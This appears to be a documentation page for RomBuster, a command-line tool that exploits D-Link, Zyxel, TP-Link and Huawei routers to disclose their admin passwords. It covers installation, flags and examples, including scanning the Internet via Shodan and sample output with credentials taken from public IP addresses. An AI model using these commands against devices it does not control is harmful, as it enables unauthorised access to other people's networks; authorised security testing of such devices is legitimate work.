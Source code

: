 ```yaml
---
title : "RomBuster"
# pre : ' '
description : "RomBuster is a router exploitation tool that allows to disclosure network router admin password."
date : 2021-07-06T11:24:47+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## RomBuster

Is a router exploitation tool that allows to disclosure network router admin password.

**Features**:

- Exploits vulnerabilities in most popular routers such as D-Link, Zyxel, TP-Link and Huawei.
- Optimized to exploit multiple routers at one time from list.
- Simple CLI and API usage.

## Installation

```plain
python3 -m pip install git+https://github.com/EntySec/RomBuster
```

## Usage

```plain
rombuster [-h] [-o OUTPUT] [-i INPUT] [-a ADDRESS] [--shodan SHODAN] [--zoomeye ZOOMEYE] [-p PAGES]
```

## Flags

```plain
RomBuster is a router exploitation tool that allows to disclosure network router admin password.

optional arguments:
  -h, --help            show this help message and exit
  -o OUTPUT, --output OUTPUT
                        Output result to file.
  -i INPUT, --input INPUT
                        Input file of addresses.
  -a ADDRESS, --address ADDRESS
                        Single address.
  --shodan SHODAN       Shodan API key for exploiting devices over Internet.
  --zoomeye ZOOMEYE     ZoomEye API key for exploiting devices over Internet.
  -p PAGES, --pages PAGES
                        Number of pages you want to get from ZoomEye.
```

## Examples

### Exploiting single router

Let's hack my router just for fun.

```plain
rombuster -a 192.168.99.1
```

### Exploiting routers from Internet

Let's try to use Shodan search engine to exploit routers over Internet.

```plain
rombuster --shodan [API-KEY]
```

```plain
$ rombuster --shodan [REDACTED]
[*] Authorizing Shodan by given API key...
[+] Authorization successfully completed!
[+] (187.200.68.1:80) - admin:3931623066
[+] (2.191.126.139:80) - admin:admin
[*] Exploiting...
```

### Exploiting routers from input file

Let's try to use opened database of routers.

```plain
rombuster -i routers.txt -o passwords.txt
```

NOTE: It will exploit all routers in `routers.txt` list by their addresses and save all obtained passwords to `passwords.txt`.

## URL List

- [Github.com - RomBuster](https://github.com/EntySec/RomBuster)
